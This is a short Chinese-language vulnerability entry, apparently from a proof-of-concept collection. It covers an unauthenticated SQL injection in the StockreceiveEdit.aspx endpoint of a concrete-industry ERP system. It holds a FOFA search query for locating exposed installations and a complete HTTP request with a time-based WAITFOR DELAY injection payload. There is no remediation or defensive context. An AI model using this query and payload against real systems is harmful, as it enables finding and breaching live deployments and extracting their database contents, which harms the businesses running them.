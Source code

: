 ## 商混ERP系统接口StockreceiveEdit.aspx存在SQL注入漏洞

商混ERP系统 StockreceiveEdit.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
title="商混ERP系统"
```

## poc
```javascript
GET /ERP/StockreceiveEdit.aspx?id=1;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![84d3ac1b3fae42b6b8c215f24af8f95e.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141641376.png)
